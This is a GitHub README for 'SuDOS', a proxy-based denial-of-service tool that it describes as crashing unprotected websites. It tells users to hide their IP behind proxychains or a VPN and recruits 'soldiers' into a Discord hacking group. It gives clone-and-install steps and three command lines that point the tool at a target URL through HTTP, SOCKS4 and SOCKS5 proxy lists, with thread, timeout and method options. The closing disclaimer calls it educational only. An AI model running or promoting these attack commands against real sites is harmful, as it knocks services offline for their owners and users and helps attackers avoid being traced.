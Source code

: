 # sudos

**SuDOS** or Super Denial of Service is a proxy-based DoS tool used to crash unprotected websites from this kind of attack. It is highly recommended to use proxychains or VPN while using this tool to hide your own IP address from proxy servers or even from your target.

**We** are in need of soldiers. Join **[CSEC](https://discord.com/invite/dZSDbjJPHx)** for more free powerful tools. We also teach **anonimity**, **hacking** and **programming** for free!

Also, thanks to https://openproxy.space/list for providing these proxy lists for free!

# Disclaimer
- This tool is for educational purposes only.
- I will not be responsible for any damage this tool cause. Use it at your own risk!
- This tool is in early version. Many bugs may occur!

# Installation
Please copy and paste the step-by-step commands below to successfully install **SuDOS** in your computer. I will not be providing how to install [Python](https://python.org/) in your computer. Do some research!
```
git clone https://github.com/lilmond/sudos.git
pip install -r requirements.txt
```
You can put `sudos.py` to `/usr/local/bin/` with root and just remove the file extension to run the script globally. And don't forget to give it access using `chmod`.

# Usage examples
Commnad 1: Sets socket connection timeout

Command 2: Sets max threads to 100

Command 3: Sets HTTP method to POST
```
python sudos.py "https://example.com/path/page.php?parameter=parameter_value" ./proxies/http/1.txt http --timeout 5
python sudos.py "https://example.com/path/page.php?parameter=parameter_value" ./proxies/socks5/1.txt socks5 -t 100
python sudos.py "https://example.com/path/page.php?parameter=parameter_value" ./proxies/socks4/1.txt socks4 -m POST
```

# Screenshots
<img src="https://raw.githubusercontent.com/lilmond/sudos/main/screenshots/sudos_1.jpg" width=300/>
